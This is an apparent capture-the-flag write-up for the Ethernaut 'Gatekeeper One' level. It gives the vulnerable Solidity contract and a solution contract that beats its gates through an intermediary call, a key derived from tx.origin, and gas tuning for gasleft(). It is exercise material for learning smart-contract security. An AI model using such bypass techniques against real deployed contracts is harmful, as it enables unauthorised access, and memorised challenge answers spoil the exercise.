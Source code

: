 # Gatekeeper One

Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:
- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function gasleft(), in Solidity's documentation (see here and here).


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

```

## Solution

```

contract HackGatekeeperOne {
    GatekeeperOne target ;

    function enter(address _target, uint256 gas) external {
        target = GatekeeperOne(_target);
       
        uint16 k16 = uint16(uint160(tx.origin));
   
        uint64 k64 = uint64(1 << 63) + uint64(k16);

        bytes8 key = bytes8(k64);

        require(gas < 8191, "gas > 8191");
        require(target.enter{gas: 8191 * 10 + gas}(key), "failed");
    }
}

```


